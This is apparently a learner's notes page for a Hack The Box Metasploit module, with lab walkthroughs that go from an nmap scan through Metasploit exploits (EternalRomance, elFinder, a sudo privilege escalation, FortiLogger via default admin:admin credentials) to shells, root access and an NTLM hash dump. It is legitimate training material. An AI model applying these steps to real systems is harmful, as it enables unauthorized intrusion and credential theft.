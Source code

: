 # Using Metasploit Framework

## Metasploit Project

a) Metasploit Framework -> Free, open-source, community driven

b) Metasploit PRO -> Paid, Commercial use, enterprise oriented

### Architecture

Modules (/usr/share/metasploit-framework/modules)

Plugins (/usr/share/metasploit-framework/plugins/)

Scripts (/usr/share/metasploit-framework/scripts/)

Tools (/usr/share/metasploit-framework/tools/)



### Intro to msfconsole (free)

Launching -> `msfconsole` or `msfconsole -q` (without banner)

Modules -> prepared scripts to exploits

* Syntax -> \<type>/\<os>/\<service>/\<name>&#x20;
  * exploit/windows/ftp/scriptftp\_list
* Search -> `help search` f.e.: `search eternalromance`
* Specific search -> `search type:exploit platform:windows cve:2021 rank:excellent microsoft`
* `Module selection -> nmap -sV <IP> ->` ![](<.gitbook/assets/image (17).png>)
  * `search ms17_010 -> use 0 -> options -> info`
    * `set RHOSTS <IP>... run`

#### Example of usage

`nmap -sVC 10.129.2.141`

`msfconsole -q`

`search eternalromance`

`options`

`set RHOSTS 10.129.2.141`

`set LHOST 10.10.14.153`

`run`

find flag.txt

### Payloads

refers to a module that aids the exploit in returning a shell to the attacker

* exploit -> finds the vuln service
* payload -> establishes a foothold

#### Example of usage

`nmap -sVC 10.129.152.95`

`msfconsole -q`

`search Apache druid`

`use 0`

`options`

`set LHOST 10.10.14.153`

`set RHOSTS 10.129.152.95`

`run`

find flag.txt



## MSF Sessions



### Sessions & Jobs usage

The target has a specific web application running that we can find by looking into the HTML source code. What is the name of that web application?

`nmap -sVC 10.129.79.219`

elFinder



Find the existing exploit in MSF and use it to get a shell on the target. What is the username of the user you obtained a shell with?

`msfconsole -q`

`search elfinder`

`use 3`

`set LHOST, RHOSTS`

`run`

`shell`

`whoami` -> www-data



The target system has an old version of Sudo running. Find the relevant exploit and get root access to the target system. Find the flag.txt file and submit the contents of it as the answer.

`shell`

`sudo -V` -> version 1.8.31

msf -> `sessions`

msf -> `search sudo 1.8.31`

`use 0`

`set LHOST, SESSION`

`run`

`cd root`

`cat flag.txt`

{% embed url="https://www.youtube.com/watch?v=we0cYx37lMo" %}

### Meterpreter

* meterpreter payload is a specific type of multi-faceted extensible payload that uses DLL injection to establish connection
* difficult to detect using simple checks, can be configured to be persistent across reboots or system changes...
* resides entirely in the memory of the remote host...leaves no traces on HDD
* "swiss army knife of pentesting"



#### Questions

Given IP: `10.129.203.65`

1. Find the existing exploit in MSF and use it to get a shell on the target. What is the username of the user you obtained a shell with?

`sudo service postgresql status`

`sudo systemctl start postgresql`

`sudo msfdb init`

`sudo msfdb status`

`sudo msfdb run`

msf -> `db_nmap -sV -p- -T5 -A 10.129.203.65`

<figure><img src=".gitbook/assets/image (14) (1).png" alt=""><figcaption></figcaption></figure>

msf -> `hosts`

<figure><img src=".gitbook/assets/image (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

msf -> `services`

<figure><img src=".gitbook/assets/image (2) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

5000 -> HTTP -> go to website 10.129.203.65:5000

* it is running FORTILOGGER
* tried credentials admin:admin -> worked

msf -> `search FortiLogger`

msf -> `use 0`

msf -> `set LHOST tun0`

msf -> `set RHOSTS 10.129.203.65`

msf -> `run`

<figure><img src=".gitbook/assets/image (3) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

`shell`

`whoami`

<figure><img src=".gitbook/assets/image (4) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

ANSWER: **`nt authority\system`**

2. Retrieve the NTLM password hash for the "htb-student" user. Submit the hash as the answer.

msf -> `exit`

msf -> `run post/windows/gather/hashdump`

<figure><img src=".gitbook/assets/image (7) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
